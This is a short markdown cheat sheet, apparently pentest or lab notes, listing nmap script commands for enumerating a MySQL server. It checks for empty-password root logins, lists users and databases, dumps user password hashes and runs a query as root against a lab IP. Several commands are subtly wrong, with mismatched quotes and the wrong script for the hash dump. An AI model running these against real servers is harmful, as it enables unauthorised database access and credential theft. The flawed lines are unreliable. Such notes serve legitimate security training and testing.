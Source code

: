 ##### Enumerate Empty Password/Anonymous Login
```
nmap -sV -p3306 --script mysql-empty-password
```

##### Check if `InteractiveClient` Capability is supported on the MySQL
```
nmap -p3306 --script mysql-info IP
```

##### `mysql-users` Nmap Scripts
```
nmap -p3306 --script mysql-users --script-args="mysqluser='root',mysqlpass=''" IP
```

##### List all Databases Stored on the MySQL
```
nmap -p3306 --script mysql-databases --script-args="mysqluser='root',mysqlpass=''" IP
```

##### Find the Data Directory used by MySQL
```
nmap -p3306 --script mysql-users --script-args="mysqluser='root',mysqlpass=''" IP | grep datadir
```

##### Check whether File Privileges can be Granted to Non Admin Users
```
nmap -p3306 --script mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password=",mysql-audit.filename="/usr/share/nmap/nselib/data/mysql-cis.audit" IP
```

##### Dump all User Hashes
```
nmap -p3306 --script mysql-users --script-args=mysqluser='root',mysqlpass=''" IP
```

##### Find the number of Records Stored in Table 'authors' in Database 'books'
```
nmap --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p 3306 192.71.145.3
```